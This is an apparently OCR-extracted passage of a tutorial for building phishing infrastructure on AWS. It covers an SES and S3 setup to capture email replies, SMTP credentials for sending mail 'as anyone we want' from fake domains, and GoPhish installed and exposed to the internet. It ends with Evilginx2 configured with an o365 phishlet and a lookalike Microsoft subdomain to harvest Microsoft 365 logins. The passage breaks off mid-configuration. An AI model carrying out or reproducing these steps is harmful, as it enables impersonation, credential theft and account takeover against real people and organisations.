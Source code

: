     ---
    
    ### ⇒ Creating S3 Bucket To capture Email Responses:
    
    Go to side bar and choose `Email Receiving` → Choose `Role Sets` → `Create a New Role set` → Name it Whatever you like → Click the one you just create it and hit `Create Role` → add an recipient email whare it should look legitimate and hit `add recipient` and `Next step` → Now Create Amazon S3 Bucket From the Arrow By Choosing `S3` → `Create New S3` “Make it Unique!” and Hit `Next Step` → Give the Role Name and Be sure that every thing set right → `Create a role` … Go back to `Role Sets` → Choose what you just create and hit `Set As Active Role Set.` | Back to Amazon Route53 Tab and Create MX Record to allow you specifies mail server, inside the Value add `10 inbound-smtp(YourOregon).amazonaws.com` Hit Create Records to make sure that everything is ok:
    
    ```bash
    ~$ dig Yourdoman.com mx 
    
    ## See The Results ...
    ```
    
    After That Make Sure that you need to change some SMTP Settings. That's Will allow us to send emails from our fake domains as anyone we want
    
    Go to `SES Home` → `SMTP Settings` → `Create My SMTP credentials` → `Create` → `Download credentials` and save it … 
    

### Installing GoPhish and Evilginx2 On Our Server.

```bash
~$ sudo apt-get update # Updating our Package
~$ sudo apt-get dist-upgrade # Upgrading .. 
~$ sudo apt-get install golang # Installing Golang
~$ go get github.com/gophish/gophish
~$ cd go/src/github.com/gophish/gophish
~$ ls # You Should See gophish.go
~$ go build # Building | Thats will make the gophish file executable and ready to run .. 
~$ vim config.json ## To remove the listeng_url from local host to 0.0.0.0:3333 -> Save it and getout..
~$ sudo ./gophish # Now We Starting .. 
# => You Going to find Your Gophish credentials in the first terminal msg=
```

Now Go Back To Your Instance and Copy the Public IP of your EC2 and Open Your Browser and Type https://{IP}:3333 → Sign in With The Given `credentials` → Change the default `credentials` .. and now you Cool 🙂

> ***For Installing Evilginx2, Just Follow the Installation steps on this Blog → https://breakdev.org/evilginx-3-3-go-phish/. nothing different than usual.***
> 
- Configuring Evilginx2 on our server.
    
    ```bash
    ~$ sudo ./bin/evilginx -p phishlets # To Run the tool ..
    ~$ Config domain {YourPhishingDomain.com} # Specify your Domain 
    ~$ Config ip {AWSIP} # Type your puplic AWs instance ip
    # At This Stage hit the Route53 from search bar to add another DNS Record. to make domain look like www.microsoft.myphishing.com
    # Hit to Create new record -> Choose whatever the record name based on your target -> type your IP in the Value.
    ~$ phishlets hostname o365 {yourPishingSubDomain} # To chose which phishlets 
    ~$ phishlets enable o365 # To enable the phishlets.. Seeing successful output meaning you could to go ..